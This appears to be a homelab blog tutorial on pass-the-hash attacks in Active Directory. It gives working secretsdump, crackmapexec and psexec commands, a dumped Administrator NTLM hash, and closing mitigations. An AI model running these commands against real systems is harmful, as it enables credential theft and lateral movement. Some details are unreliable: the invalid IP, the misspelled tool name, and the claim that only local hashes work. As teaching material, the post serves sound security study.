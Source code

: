 ```yaml
---
title: "Pass the Hash "
layout: post
category: Active-Directory
tags: [AD, Windows-server]
excerpt: " "
---
```



# Pass the Hash Overview

This **attack only works with local SAM hashes(NTLM)** and **not Domain hashes(NTLM2)**. Since many administrators use the same passwords for both local and domain accounts it is possible to login to a domain controller and other high value systems using only local hashes.

Pass the hash is a technique used to steal credentials and enable lateral movement within a target network. In Windows networks, the challenge-response model used by NTLM security is abused to enable a malicious user to authenticate as a valid domain user without knowing their password. Even though Kerberos has replaced NTLM as the preferred authentication method for Windows domains, NTLM is still enabled in many Windows domains for compatibility reasons. And so, pass the hash attacks remain an effective tool in the hands of skilled attackers.

## How NTLM authentication works  
1. The user enter his username and password.  
2. The client software generates a hash of password (and discards the cleartext password).  
3. The username is sent to the target system requesting authentication.  
4. A security challenge is returned which the client encrypts using the password hash and then sends back.  
5. The target system passes the encrypted response to the Domain Controller who also encrypts the challenge with its copy of the user’s password hash – if it matches then the user is authenticated

# Pass the Hash Attack
## Get NTLM Hash

- Installing crackmapexec  

```bash
apt install crackmapexec
```


- Dumping Hashes with secretsdump.py 

```bash
#secretsdump.py DC/username:password@DCip

secretsdump.py homelab.local/superman:'Password123!'@192.1168.1.2

```

![Desktop View](/assets/img/AD_Lab/Pasted image 20220823175602.png){: }

- admin NTLM hash
- syntax  **(uid:rid:lmhash:nthash)**

```
Dumping local SAM hashes **(uid:rid:lmhash:nthash)**

Administrator:500:aad3b435b51404eeaad3b435b51404ee:3b5edb4ae7153d3871522857b2bd1e60


Administrator -> 3b5edb4ae7153d3871522857b2bd1e60
 
```


##  Pass NTLM Hash
- After get hash when perform [smb relay attack](https://seczone1.github.io/Active_Directory/2022-07-14-SMB-Relay-Attack) 

- using  crakmapexec Tool 

```bash
crakmapexec DC-IP -u "username" -H ntlm  --local

crakmapexec 192.168.1.2 -u Administrator -H 3b5edb4ae7153d3871522857b2bd1e60 --local
```

![Desktop View](/assets/img/AD_Lab/Pasted image 20220823181748.png){: }


- Using Psexec Tool 

```bash
psexec.py "Username"@DC-IP -hashes Lmhash:NThash

psexec.py Administrator@192.168.1.2 Lmhash:NThash aad3b435b51404eeaad3b435b51404ee:3b5edb4ae7153d3871522857b2bd1e60

```

![Desktop View](/assets/img/AD_Lab/Pasted image 20220823182002.png){: }


# Pass Hash Attack Mitigations  

Hard to completely prevent, but we can make it more difficult on an attacker:  
- Limit account re-use:  
- Avoid re-using local admin password  
- Disable Guest and Administrator accounts  
- Limit who is a local administrator (least privilege)  
- Utilize strong passwords:  
- The longer the better (>14 characters)  
- Avoid using common words  
- I like long sentences  
- Privilege Access Management (PAM)  
- Check out/in sensitive accounts when needed  
- Automatically rotate passwords on check out and check in  



